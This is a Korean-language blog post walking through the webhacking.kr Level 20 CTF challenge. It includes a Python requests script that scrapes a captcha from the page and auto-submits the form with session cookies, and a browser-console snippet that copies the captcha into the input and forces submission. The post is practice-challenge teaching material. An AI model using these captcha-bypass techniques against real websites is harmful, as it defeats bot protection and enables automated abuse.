 ```yaml
---
layout: post
title: Webhacking.kr | Level 20
subtitle: Webhacking CTF Problem Solving
categories: Webhacking.kr
tags: [Pentest, Web]
---
```


**본 문제는 [webhacking.kr](https://webhacking.kr)를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205825391-dc40a54c-dcf3-4a8d-be0e-8324276e14a8.png" width = 400> 
</p>

접속하면 입력해야 할 **nickname, comment, captcha** 세 부분이 존재하는데 최상단을 보면 **time limit : 2 second** 시간 제한은 2초로 되어 있다.

**captcha**로 인해서 2초내에 입력은 불가능할 것으로 보인다.

따라서, `python requests`를 이용해 해당 값을 자동으로 집어넣고 Submit하는 Exploit을 작성해보고자 한다.

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205825840-2089f334-4061-4732-bc27-f70427d75a1e.png" width = 360> 
</p>

입력 값을 넣고 submit 하는것을 Burp Suite로 잡았을 때의 모습이다.

POST 방식을 이용하고 **Body**에 들어가는 변수로는 **id, cmt, captcha**인 것을 알 수 있다.

python을 이용해서 해당 리소스들이 어떤 식으로 존재하는 지 확인해본다.

```python
import requests

url = 'https://webhacking.kr/challenge/code-4/'

r = requests.get(url)
print(r.text)
```

```html
<html>
<head>
<title>Challenge 20</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
<center><font size=2>time limit : 2 second</font></center>
<form name=lv5frm method=post>
<table border=0>
<tr><td>nickname</td><td><input type=text name=id size=10 maxlength=10></td></tr>       
<tr><td>comment</td><td><input type=text name=cmt size=50 maxlength=50></td></tr>       
<tr><td>captcha</td><td><input type=text name=captcha><input type=button name=captcha_ value="C3t9ybswHJ" style="border:0;background=lightgreen"></td></tr>
<tr><td><input type=button value=Submit onclick=ck()></td><td><input type=reset value=reset></td></tr>
</table>
<script>
function ck(){
  if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
  if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
  if(lv5frm.captcha.value=="") { lv5frm.captcha.focus(); return; }
  if(lv5frm.captcha.value!=lv5frm.captcha_.value) { lv5frm.captcha.focus(); return; }   
  lv5frm.submit();
}
</script>
</body>
</html>
```

모든 내용을 `\n` 기준으로 `split`하고 captcha가 있는 부분을 인덱싱하여 값을 가져오면 된다.

이제 Burp Suite로 잡았던 것 처럼 값을 담아서 POST 보내보겠습니다.

```python
import requests

url = 'https://webhacking.kr/challenge/code-4/'

cookies = {
    'st' : '1670306429',
    'PHPSESSID' : 'd80585g759loihj05an8vqdenh'
}
r = requests.get(url)

lst = (r.text).split('\n')

captcha = lst[14][94:104]
print(captcha)

data = {
    'id' : '1',
    'cmt' : '1',
    'captcha' : captcha
}

r = requests.post(url, cookies = cookies, data = data)

print(r.text)
```

**하지만, captcah라는 것은 컴퓨터와 사람을 구분짓기 위한 완전 자동 튜링 테스트로, 웹사이트에서 사람이 접근하려고 하는 것인지 봇이 접근하는 것인지 판단하기 위하여 사용되는 테스트다.**

즉, Exploit을 날리게되면 컴퓨터인지 사람인지 구분하는 테스트를 진행할 수 없기 때문에 다시 접근해야 한다.

```javascript
function ck(){
  if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
  if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
  if(lv5frm.captcha.value=="") { lv5frm.captcha.focus(); return; }
  if(lv5frm.captcha.value!=lv5frm.captcha_.value) { lv5frm.captcha.focus(); return; }
  lv5frm.submit();
}
```

개발자도구를 켜고 스크립트를 보면 값을 보낼 때 누르는 Submit에 **onclick = ck()**이 있다.

개발자도구 콘솔을 이용해 captcha의 값을 읽은 동시에 값을 넣고 강제로 Submit을 할 수 있을 것이다.

```javascript
lv5frm.id.value = "1"
lv5frm.cmt.value = "1"
lv5frm.captcha.value = lv5frm.captcha_.value
lv5frm.submit();
```

새로고침하고 해당 값을 엔터하면 해결이 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205836357-46da40de-eac1-416b-8b52-9c7267f282ab.png" width = 400> 
</p>
